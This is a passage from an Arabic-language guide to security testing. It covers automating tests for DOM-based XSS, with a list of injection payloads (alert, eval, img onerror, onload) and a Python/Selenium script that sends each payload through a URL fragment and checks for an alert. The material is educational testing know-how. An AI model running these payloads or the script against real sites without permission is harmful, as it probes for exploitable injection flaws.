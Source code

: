 ### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests`) لأتمتة اختبار مجموعة من الحقن المعتمدة على DOM-Based XSS وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تستهدف مصادر DOM.
  - مثال قائمة:
    ```
    #alert('XSS')
    #javascript:alert('XSS')
    #console.log('XSS')
    #eval('alert(1)')
    ?param=<img src=x onerror=alert('XSS')>
    #" onload="alert('XSS')
    ```
- **كيف يعمل**:
  - يتم إرسال كل حقنة عبر URL أو تعديل مصادر العميل.
  - يتم تحليل الاستجابة في المتصفح (يدويًا أو عبر أدوات مثل Selenium) لتأكيد النجاح.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.

#### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع Selenium لمحاكاة المتصفح):
  ```python
  from selenium import webdriver

  url = "https://example.com/#"
  payloads = [
      "alert('XSS')",
      "javascript:alert('XSS')",
      "console.log('XSS')",
      "eval('alert(1)')",
      "setTimeout('alert(\"XSS\")',0)",
      "document.title='XSS'"
  ]

  driver = webdriver.Chrome()
  for payload in payloads:
      driver.get(url + payload)
      try:
          alert = driver.switch_to.alert
          print(f"نجاح: {payload}")
          alert.accept()
      except:
          print(f"فشل: {payload}")
  driver.quit()
  ```
- **كيف يعمل**:
  - يفتح كل URL مع الحقنة في المتصفح.
  - يتحقق من وجود تنبيه أو تغييرات في DOM لتأكيد النجاح.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لـ DOM-Based XSS.

